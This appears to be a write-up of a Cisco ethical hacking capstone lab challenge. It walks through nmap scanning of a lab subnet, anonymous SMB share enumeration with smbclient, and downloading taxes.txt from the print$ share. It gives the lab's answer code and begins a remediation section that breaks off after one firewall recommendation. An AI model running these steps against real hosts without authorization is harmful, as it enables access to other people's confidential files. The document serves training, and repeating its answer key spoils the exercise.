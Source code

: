 #Challenge 3: Exploiting Open SMB Server Shares

##Overview
This document outlines the steps to complete Challenge 3 of the Cisco Ethical Hacker Capstone Project. The objective is to identify and exploit open SMB server shares on the 10.6.6.0/24 network, locate the taxes.txt file in the print$ share, extract the code A9!15wa2, and propose remediation strategies.
Prerequisites

##Tools: nmap, smbclient.
Network: Access to 10.6.6.0/24 for scanning.

##Steps
Step 1: Scan for SMB Hosts
Objective
Identify hosts running SMB services on the 10.6.6.0/24 network.
Command
nmap -p 139,445 10.6.6.0/24

Result
Host 10.6.6.23 has port 445 open, indicating SMB services.
Screenshot
View Nmap Scan Output
##Step 2: Enumerate SMB Shares
Objective
List shares on 10.6.6.23 accessible anonymously.
Command
smbclient -L //10.6.6.23 -N

Output
Sharename       Type      Comment
---------       ----      -------
homes           Disk      All home directories
workfiles       Disk      Confidential Workfiles
print$          Disk      Printer Drivers
IPC$            IPC       IPC Service (Samba 4.9.5-Debian)

Analysis

print$ and IPC$ are accessible without authentication.
homes and workfiles likely require credentials.

Screenshot
View SMB Share List
##Step 3: Access and Download the File
Objective
Connect to the print$ share, locate taxes.txt, and extract the code.
Commands

Connect to print$:smbclient //10.6.6.23/print$ -N


Inside smbclient:ls
get taxes.txt
exit


Inspect locally:cat taxes.txt



Result

taxes.txt is found in print$.
Contents: A9!15wa2.

Screenshot
View SMB Client Operations
##Step 4: Propose Remediation
Objective
Suggest methods to secure the SMB server.
Recommendations

Restrict Access:
Use firewall rules to limit SMB ports (139, 445) to trusted IPs.




